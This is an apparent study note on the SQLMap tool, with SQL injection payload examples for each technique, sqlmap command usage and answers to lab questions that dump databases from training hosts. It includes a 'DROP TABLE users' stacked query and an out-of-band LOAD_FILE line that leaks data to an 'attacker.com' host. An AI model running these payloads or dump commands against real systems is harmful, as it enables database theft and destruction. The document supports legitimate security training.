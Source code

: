 # 🐡 SQLMap Essentials

[SQLMap](https://github.com/sqlmapproject/sqlmap) is a free and open-source penetration testing tool written in Python that automates the process of detecting and exploiting SQL injection (SQLi) flaws.

We can install it the following way:

```shell-session
sudo apt install sqlmap
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
```

The default techniques that are used are `BEUSTQ:`

* `B`: Boolean-based blind
* `E`: Error-based
* `U`: Union query-based
* `S`: Stacked queries
* `T`: Time-based blind
* `Q`: Inline queries

***

### Different types of SQLI

#### Boolean-based blind SQL Injection

```sql
AND 1=1
```

It is exploited through the differentiation of `TRUE` from `FALSE` query results

The differentiation is based on comparing server responses to determine whether the SQL query returned `TRUE` or `FALSE`.

#### Error-based SQL Injection

```sql
AND GTID_SUBSET(@@version,0)
```

If the `database management system` (`DBMS`) errors are being returned as part of the server response for any database-related problems, then there is a probability that they can be used to carry the results for requested queries.

#### UNION query-based

```sql
UNION ALL SELECT 1,@@version,3
```

With the usage of `UNION`, it is generally possible to extend the original (`vulnerable`) query with the injected statements' results.

the attacker can get additional results from the injected statements within the page response itself.

#### Stacked queries

```sql
; DROP TABLE users
```

This works by injecting additional SQL statements after the vulnerable one. In case that there is a requirement for running non-query statements (e.g. `INSERT`, `UPDATE` or `DELETE`), stacking must be supported by the vulnerable platform (e.g., `Microsoft SQL Server` and `PostgreSQL` support it by default)

#### Time-based blind SQL Injection

```sql
AND 1=IF(2>1,SLEEP(5),0)
```

The principle of `Time-based blind SQL Injection` is similar to the `Boolean-based blind SQL Injection`, but here the response time is used as the source for the differentiation between `TRUE` or `FALSE`.

#### Inline queries

```sql
SELECT (SELECT @@version) from
```

#### Out-of-band SQL Injection

```sql
LOAD_FILE(CONCAT('\\\\',@@version,'.attacker.com\\README.txt'))
```

This is used in cases where all other types are either unsupported by the vulnerable web application or are too slow (e.g., time-based blind SQLi).

### Getting Started

To get all options and switches&#x20;

```shell-session
sqlmap -hh
```

Basic command:

```shell-session
sqlmap -u "http://www.example.com/vuln.php?id=1" --batch
```

{% hint style="info" %}
Note: in this case, option '-u' is used to provide the target URL, while the switch '--batch' is used for skipping any required user-input, by automatically choosing using the default option.
{% endhint %}

{% hint style="info" %}
#### Different messages usually found during a scan of SQLMap ->

https://academy.hackthebox.com/module/58/section/696
{% endhint %}

To set up an SQLMap request against the specific target is by utilizing `Copy as cURL`

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```shell-session
sqlmap 'http://www.example.com/?id=1' -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0' -H 'Accept: image/webp,*/*' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Connection: keep-alive' -H 'DNT: 1'
```

`GET` parameters are provided with the usage of option `-u`/`--url`

`POST` data, the `--data` flag can be used

```shell-session
sqlmap 'http://www.example.com/' --data 'uid=1&name=test'
```

If we want to use an alternative HTTP method, other than `GET` and `POST` (e.g., `PUT`), we can utilize the option `--method`

```shell-session
sqlmap -u www.target.com --data='id=1' --method PUT
```

Another way of launching sqlmap is with a burp request:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

we copy and paste the request in a txt file and call it in our command:

```shell-session
sqlmap -r req.txt
```

if we have a case where we have a session cookie we need to specify it:

```shell-session
sqlmap ... --cookie='PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'
sqlmap ... -H='Cookie:PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'
```

**Questions**

\#1&#x20;

```
sqlmap 'http://83.136.250.45:54294/case2.php' --data 'id=1' --batch --dump
```

\#2&#x20;

```
sqlmap 'http://83.136.250.45:54294/case3.php' --cookie='id=1*' --dump --batch
```

\#3&#x20;

```
sqlmap -r req2.txt --dump --batch
```

### Handling SQLMap Errors

`--parse-errors`, to parse the DBMS errors (if any) and displays them as part of the program run

`-t` option stores the whole traffic content to an output file

```shell-session
sqlmap -u "http://www.target.com/vuln.php?id=1" --batch -t /tmp/traffic.txt
```

`-v` option, to raise the verbosity level of the console output

```shell-session
sqlmap -u "http://www.target.com/vuln.php?id=1" -v 6 --batch
```

`--proxy` option to redirect the whole traffic through a (MiTM) proxy (e.g., `Burp`). This will route all SQLMap traffic through `Burp`, so that we can later manually investigate all requests

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Prefix & Suffix

To go faster after manual enumeration we can use  `--prefix` and `--suffix`

```bash
sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"
```

This will result in a query like this:

```sql
SELECT id,name,surname FROM users WHERE id LIKE (('test%')) UNION ALL SELECT 1,2,VERSION()-- -')) LIMIT 0,1
```

**Questions**

**#5**&#x20;

```
sqlmap http://94.237.59.231:59227/case5.php?id=1 --risk=3 --level=5 -T flag5 --no-cast --batch --dump
```

\#6&#x20;

```
sqlmap http://94.237.59.231:59227/case6.php?col=id --random-agent --batch --dump --prefix='`)' --level=5 --risk=3
```

\#7&#x20;

```
sqlmap http://94.237.59.231:59227/case7.php?id=1 --union-cols=5 --dump --no-cast
```
